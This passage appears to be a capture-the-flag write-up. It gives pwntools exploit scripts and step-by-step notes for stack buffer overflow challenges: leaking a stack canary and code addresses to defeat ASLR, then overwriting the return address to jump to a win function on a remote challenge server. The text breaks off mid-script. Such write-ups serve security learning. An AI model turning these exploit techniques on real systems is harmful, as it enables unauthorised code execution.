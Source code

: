 ```
canary = p.readn(8)

retPad = b'A' * 16

p.readuntil('[')
buffer = int(p.readuntil(']', drop=True), 16)
ret = p32(buffer)
p.sendline(payload + padding + canary + retPad + ret)


p.interactive()
```

## Stack-dump2

---

FLAG{REDACTED}

---

_stack-dump + aslr? ez_

Thought this one would be harder. Building on the stack-dump from week 2, this time all I had to do extra was leak some addresses.

Although fgets is used, we specify the length, rendering it completely useless.

1. Grab the pointer on the stack, it's just one byte from the start of the buffer, so that's great.
2. Dump the canary by reading memory from the start of the canary, which is `0x69` bytes from the useful pointer.
3. On reading the canary, the next step is finding where the `win` function is. We do that by leaking another address on the stack, this time from the code section. (Just in case the offsets for the code part and the stack are different)
4. Use the code pointer to find the address of the `win` function
5. Find the padding before and after the canary and overflow, to jump to the win function.
6. `cat flag`

```
#!/usr/bin/python3

from pwn import *

#p = process('./stack-dump2')
p = remote('plsdonthaq.me', 5002)

p.readuntil('useful stack pointer ')
stackPointer = int(p.readuntil('\n', drop=True), 16)


p.sendline('a')
p.readuntil(': ')
p.sendline('5')
p.sendline(p32(stackPointer + 0x69))
p.sendline('b')


p.readuntil(': ')
canary = p.readn(4)

p.readuntil('quit')
p.sendline('a')

p.readuntil(': ')
p.sendline('5')
p.sendline(p32(stackPointer + 0x3d))
```